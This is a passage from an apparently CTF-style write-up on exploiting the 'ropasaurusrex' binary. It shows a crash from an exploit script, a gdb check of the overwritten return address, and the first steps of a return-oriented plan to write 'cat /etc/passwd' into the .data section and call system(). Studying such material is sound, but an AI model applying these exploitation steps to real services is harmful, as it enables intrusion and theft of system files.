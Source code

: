 Run that with <tt>ruby ./sploit.rb</tt> and you should see the service crash:

```

<span class="lnr">1 </span>connect to <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> from debian-x86.skullseclabs.org <span class="Statement">[</span>127.0.0.1<span class="Statement">]</span> <span class="Constant">53451</span>
<span class="lnr">2 </span>Segmentation fault <span class="PreProc">(</span><span class="Special">core dumped</span><span class="PreProc">)</span>
```

And you can verify, using gdb, that it crashed at the right location:

```

<span class="lnr">1 </span>gdb <span class="Special">--quiet</span> ./ropasaurusrex core
<span class="lnr">2 </span><span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">3 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">4 </span><span class="Comment">#0  0x42424242 in ?? ()</span>
```

We now have the beginning of an exploit!

## How to waste time with ASLR

I called this section 'wasting time', because I didn't realize—at the time—that ASLR was enabled. However, assuming no ASLR actually makes this a much more instructive puzzle. So for now, let's not worry about ASLR—in fact, let's not even *define* ASLR. That'll come up in the next section.

Okay, so what do we want to do? We have a vulnerable process, and we have the [libc](https://en.wikipedia.org/wiki/C_standard_library) shared library. What's the next step?

Well, our ultimate goal is to run system commands. Because [stdin and stdout](https://en.wikipedia.org/wiki/Standard_streams) are both hooked up to the [socket](https://en.wikipedia.org/wiki/Network_socket), if we could run, for example, <tt>system("cat /etc/passwd")</tt>, we'd be set! Once we do that, we can run any command. But doing that involves two things:

1. Getting the string <tt>cat /etc/passwd</tt> into memory somewhere
2. Running the <tt>system()</tt> function

### Getting the string into memory

Getting the string into memory actually involves two sub-steps:

1. Find some memory that we can write to
2. Find a function that can write to it

Tall order? Not really! First things first, let's find some memory that we can read and write! The most obvious place is the [.data](https://en.wikipedia.org/wiki/Data_segment) section:

```

<span class="lnr">1 </span>ron@debian-x86 ~ $ objdump <span class="Special">-x</span> ropasaurusrex  | <span class="Statement">grep</span> <span class="Special">-A1</span> <span class="Statement">'</span><span class="Constant">\.data</span><span class="Statement">'</span>
<span class="lnr">2 </span> <span class="Constant">23</span> .data         <span class="Constant">00000008</span>  <span class="Constant">08049620</span>  <span class="Constant">08049620</span>  <span class="Constant">00000620</span>  <span class="Constant">2</span>**<span class="Constant">2</span>
<span class="lnr">3 </span>                   CONTENTS, ALLOC, LOAD, DATA
<span class="lnr">4 </span>
```

